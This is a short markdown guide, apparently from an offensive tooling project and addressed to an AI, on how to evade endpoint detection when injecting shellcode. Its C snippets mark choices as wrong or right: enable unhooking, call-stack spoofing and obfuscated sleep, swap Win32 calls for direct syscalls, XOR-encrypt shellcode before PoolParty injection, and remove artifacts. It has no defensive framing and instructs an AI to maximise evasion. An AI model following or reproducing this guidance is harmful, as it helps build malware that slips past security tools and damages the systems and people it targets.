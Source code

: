 
## Common Mistakes AI Must Avoid

### ❌ Mistake 1: Not Enabling Enough Techniques
```c
// WRONG - Will be detected
config.bEnableUnhooking = FALSE;  // Don't skip techniques!
```

**Correct**:
```c
// RIGHT - Enable ALL for maximum evasion
config.bEnableUnhooking = TRUE;
config.bEnableCallStackSpoofing = TRUE;
config.bEnableObfuscatedSleep = TRUE;
```

### ❌ Mistake 2: Using Win32 APIs Directly
```c
// WRONG - Hooked by EDR
VirtualAllocEx(hProc, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

**Correct**:
```c
// RIGHT - Use syscalls or techniques
SYSCALL_CACHE syscalls;
SW3_Initialize(&syscalls);
// Then use PoolParty which internally uses syscalls
```

### ❌ Mistake 3: Not Encrypting Shellcode
```c
// WRONG - Static signature detection
BYTE shellcode[] = {0xfc, 0x48, 0x83, ...};  // Unencrypted
```

**Correct**:
```c
// RIGHT - Always encrypt
BYTE encryptedShellcode[] = {0x3f, 0xa2, 0x1b, ...};  // Encrypted
BYTE key[] = "MyKey";

// Decrypt just before use
Crypto_XOR(encryptedShellcode, size, key, sizeof(key));
// Now inject
```

### ❌ Mistake 4: Forgetting Cleanup
```c
// WRONG - Leaves artifacts
PoolParty_Execute(&ctx);
return 0;  // No cleanup!
```
